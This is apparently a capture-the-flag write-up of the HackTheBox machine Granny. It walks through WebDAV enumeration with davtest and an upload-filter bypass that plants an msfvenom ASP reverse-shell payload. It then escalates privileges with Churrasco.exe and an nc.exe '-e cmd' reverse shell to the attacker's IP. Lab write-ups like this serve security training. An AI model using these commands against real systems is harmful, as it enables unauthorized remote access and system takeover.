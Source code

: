 ```yaml
---
title: Granny Writeup - HackTheBox
date: 2023-11-13 20:00
categories: [Writeup, HackTheBox]
tags: [windows, easy] # TAG names should always be lowercase
---
```


![NMAP](/assets/img/htb/Granny/pwned.png)

Hello, welcome to the Granny Writeup from [HackTheBox](https://app.hackthebox.com/machines/Granny).

## Enumeration

---

### NMAP Open ports

In first step, we are going to enumerate the list of open ports with NMAP.

![NMAP1](/assets/img/htb/Granny/nmapscan1.png)
![NMAP2](/assets/img/htb/Granny/nmapscan2.png)

**Port 80:** HTTP  
Nmap scan report that webdav can use PUT and MOVE methods, so we are going to test it with **Davtest**.
### Davtest
With **Davtest**, we can test the posibility of uploading and execute files:
```bash
davtest -url http://10.10.10.15
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.10.15
********************************************************
NOTE    Random string for this session: l8Qkwc
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://10.10.10.15/DavTestDir_l8Qkwc
********************************************************
 Sending test files
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.txt
PUT     jsp     SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.jsp
PUT     asp     FAIL
PUT     php     SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.php
PUT     cgi     FAIL
PUT     aspx    FAIL
PUT     pl      SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.pl
PUT     cfm     SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.cfm
PUT     shtml   FAIL
PUT     jhtml   SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.jhtml
PUT     html    SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.html
********************************************************
 Checking for test file execution
EXEC    txt     SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.txt
EXEC    jsp     FAIL
EXEC    php     FAIL
EXEC    pl      FAIL
EXEC    cfm     FAIL
EXEC    jhtml   FAIL
EXEC    html    SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.html

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_l8Qkwc
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.txt
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.jsp
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.php
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.pl
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.cfm
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.jhtml
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.html
Executes: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.txt
Executes: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.html
```
## Exploitation

As we can see in the above image, we can execute the following extensions: **Example.txt**, **Example.html** and we can upload many extensions but we are going to use .asp.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.19 LPORT=443 -f asp > ennove.asp.txt
```

So, in this case we use **.asp.txt** to bypass the upload

We can use **Cadaver** to upload and change the name in this case to bypass and run the exploit:
```bash
cadaver 10.10.10.15
```
![cadaver](/assets/img/htb/Granny/cadaver.png)

We can execute the exploit visiting http://10.10.10.15/ennove.asp;.txt and use **netcat** to listen the reverse shell  
After whoami we list some privileges, we found **SeImpersonatePrivilege**
![Whoami](/assets/img/htb/Granny/whoami.png)


## Privilege Escalation

### Shell as nt authority/system

We are going to work in Temp folder and with **impacketsmb-server** we are going to move to the victim machine [Churrasco.exe GitHub](https://github.com/Re4son/Churrasco).    
```bash
impacket-smbserver smbFolder .   
```
And using **nc.exe(Netcat)** we are going to send a connection to our attacker machine with a cmd:
```bash
churrasco.exe "\\10.10.14.19\smbFolder\nc.exe -e cmd 10.10.14.19 4445"
```
![Reverse](/assets/img/htb/Granny/root.png)
